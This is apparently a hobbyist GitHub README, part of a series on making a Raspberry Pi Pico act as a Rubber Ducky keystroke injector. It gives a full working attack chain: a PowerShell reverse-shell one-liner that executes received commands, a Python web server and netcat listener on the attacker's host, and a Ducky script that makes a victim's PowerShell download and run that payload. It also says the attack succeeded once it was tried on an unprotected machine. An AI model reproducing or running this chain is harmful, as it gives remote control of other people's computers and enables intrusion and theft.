

# Task 5: Working with Payloads

In the last four weeks, I have learned how the PICO works, connected physical buttons and worked out how the virtual keyboard works. With the knowledge of the device, Circuit Python and libraries, I started work on getting scripts running. I was helped with the code from Doge Wallet "https://github.com/dbisu/pico-ducky". He had already completed some operational functions. However, when tested, this did not work correctly. I have forked his repo to my own and updated the code base; its located here: <https://github.com/CraigWilsonOZ/pico-ducky/tree/main>

Now it's time to run some scripts. The scripts use the Hak5 Rubby Ducky script syntax. The Hak5 Rubber Ducky script syntax can be found here: <https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript>

The script we will try will create a reverse shell:

Step 1: On a Linux workstation, create a "payload.ps1" file and paste the following code. Update IPADDRESS with your Linux workstation IP

Payload.ps1:

```powershell
$sm=(New-Object Net.Sockets.TCPClient("IPADDRESS",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Step 2: Open two terminal windows; in the first run,

```bash
python3 -m http.server
```

This will create a small web server from which to download files. Next, run this Netcat command in the other terminal.  

```bash
while true; do nc -l -p 4444; done
```

Now we have our attacking host up, update the payload.py file on the PICO with this file:

Payload.py:

```python
REM Reverse Shell
DELAY 1000
GUI r
DELAY 100
STRING powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.86.219:8000/payload-5.ps1');"
ENTER
```

Now we have our scripts ready, payloads all set time for testing. Connect the PICO to a Windows workstation.

The first test failed for me due to my Windows Defender configuration.


Next tried on an unprotected host, success!


The Linux host uses the same process but uses a new reverse shell. These can be found here: <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md>

Now that we have created a payload, its time to start playing with other strips.

* [Task 1: The Pico and Setup of envirnoment](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%201/readme.md)
* [Task 2: Setting up hard switch, LED and basic keyboard](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%202/readme.md)
* [Task 3: Loading files and sending keys](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%203/readme.md)
* [Task 4: Creating scripts and basic payloads](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%204/readme.md)
* [Task 5: Working with Payloads](https://github.com/CraigWilsonOZ/PicoProject-Ducky/blob/main/Task%205/readme.md)
